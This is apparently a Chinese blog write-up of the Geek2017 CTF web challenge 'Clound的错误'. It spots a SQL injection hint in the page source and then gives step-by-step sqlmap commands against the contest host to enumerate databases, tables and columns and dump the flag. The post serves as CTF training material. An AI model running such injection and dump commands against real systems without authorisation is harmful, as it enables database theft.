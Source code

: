 ```yaml
---
layout:     post
title:      geek2017wp
subtitle:   
date:       2017-11-18
author:     FNX
header-img: img/post-bg-ios10.jpg
catalog: true
tags:
    - WP
    - Geek2017
    - WEB
---
```


## Geek2017

# Clound的错误

#### 0x00 [原理]
     kali虚拟机下的命令运用，sqlmap的使用
     
#### 0x01 [目的]
     了解kali系统下sqlmap的使用
     
#### 0x02 [环境]
     kali
     
#### 0x03 [工具]
     sqlmap
     
#### 0x04 [步骤]

1.首先打开address，是一张可爱的图片啊啊啊啊～并没有什么提示

![](/img/clound1.png)

2.右键查看源代码，有注入点的提示： sycid=1

![](/img/clound2.png)

3.http://game.sycsec.com:2007/?sycid=1

![](/img/clound3.png)

出现hint：select * from user where id='1'

4.使用sqlmap注入
  ①检测注入点是否可用:sqlmap -u "http://game.sycsec.com:2007/?sycid=1"  

  ![](/img/clound4.png)</br>

  ②暴库:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" --dbs 

  ![](/img/clound5.png)

  库名：f1ag

  ③暴表:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag --tables

  ![](/img/clound6.png)
  
  表名：flag

  ④暴字段:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag --columns

  ![](/img/clound7.png)
  
  字段：f4ag 
  
  ⑤暴字段内容:sqlmap -u "http://game.sycsec.com:2007/?sycid=1" -D f1ag -T flag -C f4ag --dump
  
  ![](/img/clound8.png)
  
  字段内容：SYC{Err0r_sql_inj}
  
4.flag：SYC{Err0r_sql_inj}



#### 0x05 [总结]

   sqlmap使用

   详细可参考：[手工注入](https://www.2cto.com/article/201208/151503.html) [sqlmap基本教程](http://blog.csdn.net/zgyulongfei/article/details/41017493)





